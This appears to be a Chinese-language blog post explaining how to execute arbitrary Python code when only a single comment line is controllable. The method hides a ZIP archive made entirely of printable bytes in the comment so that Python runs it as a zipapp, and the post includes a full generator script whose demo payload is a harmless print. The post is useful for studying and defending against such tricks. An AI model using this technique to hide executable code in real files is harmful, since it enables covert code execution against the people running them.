 +++
date = '2025-08-04T8:00:00+08:00'
draft = false
title = 'Executing arbitrary Python code from a comment'
tags = ["Python", "Hack"]
+++
通过注释执行任意Python代码

### 问题描述
Q: 只能控制一行的.py代码中注释的内容(\n\r均会被替换为空字符), 如何执行任意代码?  
A: 在注释#中, 构造一个.zip 文件, python 会将该内容当成一个zip包执行, 触发任意代码执行  

### 解决方案
- 从 Python 3.5 起, 可以直接执行一个 .zip 文件
    ```python3
    python myapp.zip
    ```
    前提是ZIP 包中包含一个顶层的`__main__.py`文件, Python 会把它当作 zipapp, 自动解压并运行`__main__.py`

    > Python 会从末尾找到 ZIP 的目录结构, 而不是依赖文件头, 所以前面的“垃圾”字节会被忽略

Python 源码中的任何行, 只要以 # 开头, 解释器都会忽略后面内容, 因此可以:
- 把 ZIP 文件的数据藏在 Python 源码中的注释中（开头加 #）
- 把 ZIP 数据直接拼接在 Python 文件的后面, 只保证文件头部分是合法 Python
- ZIP 不关心前缀, Python 只要最前面是有效源码, 也不会管后面

### 难点
ZIP 文件头包含**二进制字段**，比如
- 偏移量（文件数据相对于 ZIP 开头的位置）
- 长度（文件名长度、注释长度等）
- 这些值写死在 header 里, 是十六进制整数
- 如果这些字节中出现了像 \x00、\xFF 等非 ASCII 内容, Python 就不能把它当注释

解决方法: 暴力穷举合法组合

想办法 **调整偏移值和结构位置**，使得最终写出来的 ZIP 文件
- 所有的字段值都转化为 可打印字符（ASCII 范围内）
- 所有 binary 字段看起来都像合法的注释字符串
于是用 `itertools.product(range(256), repeat=2)` 暴力尝试偏移组合，只要碰巧生成的 ZIP 包所有关键字节都在可打印范围内（ASCII 32~126），就认为成功。



下面是`generate_polygloy_zip.py`代码, 会生成一个符合要求的`polygloy.py`代码, 最后运行该代码, 可以执行Body里面的内容`BODY = b"print('FROM MAIN.py FILE!!!')#"`

```python3
# struct: 按字节结构打包数据，方便构造 ZIP 文件二进制头
# itertools: 用来暴力枚举 CRC 校验和后缀（确保安全ASCII）
# zlib: 计算 CRC32 校验和
import struct, itertools, zlib

# 文件开头代码
# encode(): Unicode 字符串 -> bytes 字节串
JUNK_HEAD = """print("Hello World!")
# This is a comment. Here's another:
# """.encode()

# 文件结尾代码
JUNK_TAIL = """
print("Thanks for playing!")"""


# zip 文件核心代码
# b: 字节串
FILENAME = b"__main__.py"
BODY = b"print('FROM MAIN.py FILE!!!')#"


# 校验 CRC 是否为 ASCII-safe
def ascii_safe(x: int) -> bool:
    return all(((x >> (8*i)) & 0x80) == 0 for i in range(4))


# 检查 32 位整数的四个字节，每个字节最高位（0x80）是否为 0，即是否为 ASCII 范围内的字节
def find_suffix(core: bytes, length: int = 4) -> tuple[bytes, int]:
    """
    - ZIP 文件 CRC32 计算结果必须 ASCII-safe（低于 0x80）
    - 这里用暴力方法，给 payload 后面加4字节后缀，找到合适的后缀让 CRC32 满足 ASCII-safe 条件
    """
    printable = range(0x20, 0x7f)
    for tail in itertools.product(printable, repeat=length):
        payload = core + bytes(tail)
        crc = zlib.crc32(payload) & 0xFFFFFFFF
        if ascii_safe(crc):
            return bytes(tail), crc

    raise RuntimeError("No ASCII-safe CRC found.")

# 计算最终 payload
SUFFIX, CRC = find_suffix(BODY)
PAYLOAD = BODY + SUFFIX
SIZE = len(PAYLOAD)

def le32(x): return struct.pack("<I", x) # 4字节小端无符号整数
def le16(x): return struct.pack("<H", x) # 2字节小端无符号整数

# ZIP 结构中各签名常量
SIG_LFH  = 0x04034B50 # 本地文件头 Local File Header
SIG_CDH  = 0x02014B50 # 中央目录头 Central Directory Header
SIG_EOCD = 0x06054B50 # 结束目录头 End of Central Directory

# zip 文件偏移量设置
delta = len(JUNK_HEAD)

# 构建 Local File Header
"""
Local File Header 是 ZIP 格式中的一部分，告诉解压程序该文件的元信息
- version needed to extract，flags，compression method 等字段置 0 表示无压缩，简单存储
- CRC32、压缩大小、解压大小都是我们计算的
- 文件名长度和文件名
"""
lfh = (
    le32(SIG_LFH) +
    le16(0) + le16(0) + le16(0) + le16(0) + le16(0) +
    le32(CRC) + le32(SIZE) + le32(SIZE) +
    le16(len(FILENAME)) + le16(0) +
    FILENAME
)

# 构建 Central Directory Header
"""
- Central Directory 是 ZIP 文件目录结构，记录每个文件信息和偏移，
- 其中重要的是 relative offset of LFH，也就是 Local File Header 在整个 ZIP 文件里的偏移，必须加上 delta
"""
cdh = (
    le32(SIG_CDH) +
    le16(0) + le16(0) + le16(0) + le16(0) + le16(0) + le16(0) +
    le32(CRC) + le32(SIZE) + le32(SIZE) +
    le16(len(FILENAME)) + le16(0) + le16(0) +
    le16(0) + le16(0) + le32(0) + le32(delta) +
    FILENAME
)

# 确保偏移量 ASCII-safe
"""
- ZIP 目录偏移需要是 ASCII 字节，否则写入 .py 文件时会出错
- 这里通过填充若干 \x00 字节，保证偏移合法
"""
cd_offset = delta + len(lfh) + len(PAYLOAD)
pad = 0
while not ascii_safe(cd_offset + pad):
    pad += 1
padding = b'\x00' * pad
cd_offset += pad

# 构建 End of Central Directory Header
"""
EOCD 记录 ZIP 中央目录大小、偏移及注释长度等信息
"""
eocd = (
    le32(SIG_EOCD) +
    le16(0) + le16(0) +
    le16(1) + le16(1) +
    le32(len(cdh)) +
    le32(cd_offset) +
    le16(len(JUNK_TAIL))
)

# 拼接完整 ZIP 内容
zip_bytes = lfh + PAYLOAD + padding + cdh + eocd
zip_bytes = bytearray(zip_bytes)
assert all(b < 0x80 for b in zip_bytes), "非 ASCII 字节存在"

# 写入 polyglot.py 文件
with open("polyglot.py", "wb") as f:
    f.write(JUNK_HEAD + zip_bytes + JUNK_TAIL.encode())

# 运行提示
print("✅ polyglot.py 生成完毕。运行它即可执行嵌入的 __main__.py 内容：")
print("  $ python3 polyglot.py")
```
